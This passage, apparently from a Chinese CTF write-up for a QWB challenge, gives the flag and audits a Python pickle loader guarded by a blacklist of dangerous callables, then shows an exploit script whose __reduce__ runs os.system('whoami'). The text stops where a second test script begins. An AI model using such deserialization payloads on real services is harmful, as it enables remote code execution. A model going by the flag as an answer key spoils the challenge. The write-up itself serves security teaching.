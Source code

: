 最后的flag：QWB{us1ng_val1dator_caut1ous}

#### 解法二

接着进行代码审计。在`others.py`的最后有这样的内容：
```
black\_type\_list = \[eval, execfile, compile, system, open, file, popen, popen2, popen3, popen4, fdopen,
                   tmpfile, fchmod, fchown, pipe, chdir, fchdir, chroot, chmod, chown, link,
                   lchown, listdir, lstat, mkfifo, mknod, mkdir, makedirs, readlink, remove, removedirs,
                   rename, renames, rmdir, tempnam, tmpnam, unlink, walk, execl, execle, execlp, execv,
                   execve, execvp, execvpe, exit, fork, forkpty, kill, nice, spawnl, spawnle, spawnlp, spawnlpe,
                   spawnv, spawnve, spawnvp, spawnvpe, load, loads\]

class FilterException(Exception):

    def \_\_init\_\_(self, value):
        super(FilterException, self).\_\_init\_\_(
            'the callable object {value} is not allowed'.format(value=str(value)))

def \_hook\_call(func):
    def wrapper(*args, **kwargs):
        print args\[0\].stack
        if args\[0\].stack\[-2\] in black\_type\_list:
            raise FilterException(args\[0\].stack\[-2\])
        return func(*args, **kwargs)
    return wrapper

def load(file):
    unpkler = Unpkler(file)
    unpkler.dispatch\[REDUCE\] = \_hook\_call(unpkler.dispatch\[REDUCE\])
    return Unpkler(file).load()
```
我把这部分内容分为两部分；反序列化漏洞以及基本的沙箱逃逸问题。

先忽略`unpkler.dispatch[REDUCE]`这一行的内容。
```
from pickle import Unpickler as Unpkler
def load(file):
    unpkler = Unpkler(file)
    \# unpkler.dispatch\[REDUCE\] = \_hook\_call(unpkler.dispatch\[REDUCE\])
    return Unpkler(file).load()
```
这里对`file`进行了反序列化，因此如果`file`可控即可造成危险。

用下面的脚本(exp4.py)进行序列化payload的生成：
```
import os
from pickle import Pickler as Pkler
import commands
class chybeta(object):
    def \_\_reduce\_\_(self):
        return (os.system,("whoami",))    
evil = chybeta()

def dump(file):
    pkler = Pkler(file)
    pkler.dump(evil)

with open("test","wb") as f:
    dump(f)
```
测试反序列化漏洞(exp5.py):